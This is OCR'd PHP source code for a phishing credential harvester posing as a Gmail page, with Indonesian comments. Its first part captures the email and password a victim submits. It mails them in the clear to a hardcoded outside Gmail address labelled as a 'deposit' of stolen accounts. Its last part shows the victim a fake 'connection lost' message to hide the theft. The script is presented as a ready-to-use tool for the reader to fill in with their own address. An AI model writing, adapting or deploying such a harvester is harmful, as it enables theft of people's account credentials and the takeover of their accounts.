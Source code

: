 
<?php
############################################
##        Author: Script Haxorisme            ##
##       Mailer: Script Haxorisme           ##
##       Modifer: Script Haxorisme            ##
############################################
/* JANGAN GANTI COPYRIGHT NYA YA SAYANG */

$subjek = 'SETORAN GMAIL';
$mailto = 'fitriani16072020@gmail.com'; //masukin email lo disini

/* Fungsi berikut untuk mengambil input field. */

$imel = $_POST['email'];
$paswot = $_POST['password'];

/* Mengambil informasi untuk dikirim kepada facebook anda !. */

$body = <<<EOD
<br><hr><br>

Email : <font color="red">$imel</font> <br>
Password : <font color="red">$paswot</font> <br>
EOD;


$headers = "From: RAFLIPEDIA\r\n"; // Buat nunjukin pengirim email.
$headers .= "Content-type: text/html\r\n"; // Untuk memerintahkan server melakukan coding teks.
$success = mail($mailto, $subjek, $body, $headers); // Hal-hal yang akan dikirim.
?>
<?php
$random = rand(1000,5000);
?>
<title>Gmail</title>
<center> <h2> Sorry! Your Connection is Lost from Internet. Check your connection, and Try Again </h2><br>
